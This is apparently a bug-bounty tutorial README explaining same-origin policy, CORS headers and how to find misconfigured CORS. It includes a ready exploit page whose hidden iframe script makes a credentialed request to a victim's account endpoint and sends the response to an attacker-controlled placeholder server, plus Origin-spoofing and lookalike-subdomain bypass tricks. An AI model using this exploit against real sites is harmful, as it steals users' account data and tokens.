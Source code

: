 # CORS VULNERABILITY

![CORS1](https://github.com/user-attachments/assets/457ed22a-aa36-4531-811b-5017ee324515)

The CORS vulnerability, which stands for Cross-origin resource sharing, is one of the most dangerous vulnerabilities, in the sense that an intruder can obtain various and sensitive information such as sessions and many other sensitive information; This vulnerability that will happen on the subject of modern browsers has a lot to do with SOP, which we will examine in the following SOP topic, but first you must to know origin.

**What is Origin?**
When you enter a site, for example Example.com, in this case you have entered the origin of the Example.com website.

**What is origin made of?**  
The Origin is composed of the combination of three elements Protocol, Host and Port, and if we change each of these three elements, we will have a new origin, which you will fully understand in the example below:

```http
http://example.com  
https://example.com  
http://en.example.com  
https://example.com:22
```

Normally, due to the existence of SOP, we cannot request Cross-Origin to any of these.

**What is SOP?**  
Servers are used to host web pages, applications, images, fonts, etc. Now, when you use a browser, you are trying to access a unique website. To load this website, the browser needs to send different requests to different servers. Servers located in different locations around the world. Now, the security policies of the servers are responsible for reducing the risks related to these requests/responses as much as possible. One of these policies is called same-origin.

The same-origin policy is very restrictive. According to this policy, a document hosted on server A can only communicate with documents hosted on the same server. This issue can be seen from the name of politics itself because same origin means a root or a lineage.

As you Know, not having a security policy can hurt the website, but having something like same-origin also limits us a lot.

Fortunately, there is another approach that gives us flexibility in addition to security. Cross-origin is one of these and came to solve SOP limitation, which is abbreviated as CORS.

**Trick:** 
We can bypass SOP with one XSS, if we have one XSS vulnerability we can access to DOM and bypass SOP easy.

**CORS Bug:**  
A request to a resource such as an image or font outside the original origin is called a cross-origin request. CORS stands for cross-origin resource sharing, which helps us manage cross-origin requests.

Since today’s websites load their resources through different places, it is very convenient to use CORS.

Servers that are going to run cross-origin requests must also be able to handle it. On the other hand, CORS gives servers the ability to configure verified origins. In the sense that only a series of origins can be referred.

In fact, working with CORS is more flexible because it gives us the ability to customize security items and create a unique security policy based on our needs.

**How does CORS handle requests from external sources?**  
The HTTP header is where it’s supposed to help us manage CORS. This header is sent with each request or response and contains different information each time. Using this header, you can define how requests and answers are sent. CORS adds a bunch of new options to HTTP headers to handle requests. Below you can see these items:

```http
Access-Control-Allow-Origin  
Access-Control-Allow-Credentials  
Access-Control-Allow-Methods  
Access-Control-Allow-Headers  
Access-Control-Expose-Headers  
Access-Control-Max-Age  
Access-Control-Request-Headers  
Access-Control-Request-Method
```

**How to find CORS bug?**  
First, we have to change the HTTP header origin in the HTTP request we send, and if the origin is not in the HTTP request, add it, and then send the request and check the response.  
now If there are **“Access-Control-Allow-Origin: */attacker.com”** and **“Access-Control-Allow-Credentials: True”** in the response, it can be assumed that There is a CORS bug, **and it means origin(attacker.com) can send request from him site and get response include important information** .

**Some parameter we can replace in origin:**  
1. null  
2. attacker.com  
3. example.com+attacker.com

**How to exploit CORS bug?**  
when you have found the CORS bug, you can exploit the vulnerability by starting a server and running the following commands on the server, and important information such as APK key, CSRF Tokens and other sensitive information using Get the implementation of a listener using the following script:

```html
<html>  
    <body>  
        <iframe style="display: none;" sandbox="allow-scripts" srcdoc="  
        <script>  
            var req = new XMLHttpRequest();  
            var url = 'APPLICATION URL'  
            req.onload = retrieveKeys;  
  
            req.open('GET', url + '/accountDetails', true);  
            req.withCredentials = true;  
            req.send(null);  
  
           function retrieveKeys() {  
               fetch('https://Exolit_Server_Hostname/log?key=' + req.responseText)  
            }  
        </script>"></iframe>  
    </body>  
</html>
```

Now attacker make one file named `exploit.html` and when victim load and open `attacker.com/exploit.html` with social engineering method, it can automatically loaded important data and save on server or send to attacker.

**One trick**  
Sometimes the site only allows its own Sub-Domain to make Cross-Origin requests, in this case we create a Sub-Domain with the name of the site and test with it. for example:

```
target:  
example.com  
  
my subdomain:  
example.com.mysite.com
```

**Finding CORS:**  
Always look for some sensitive data in response like account id, address, phone number, email, etc which can show some impact on business towards the organization.


GitHub: [https://github.com/abolfazlvaziri](https://github.com/abolfazlvaziri)  
Instagram: [https://instagram.com/abolfazlvaziriofficial](https://instagram.com/abolfazlvaziriofficial)  
Telegram Channel: [https://t.me/AVN_COMMUNITY](https://t.me/AVN_COMMUNITY)  
YouTube: [https://www.youtube.com/@abolfazlvaziri](https://www.youtube.com/@abolfazlvaziri)
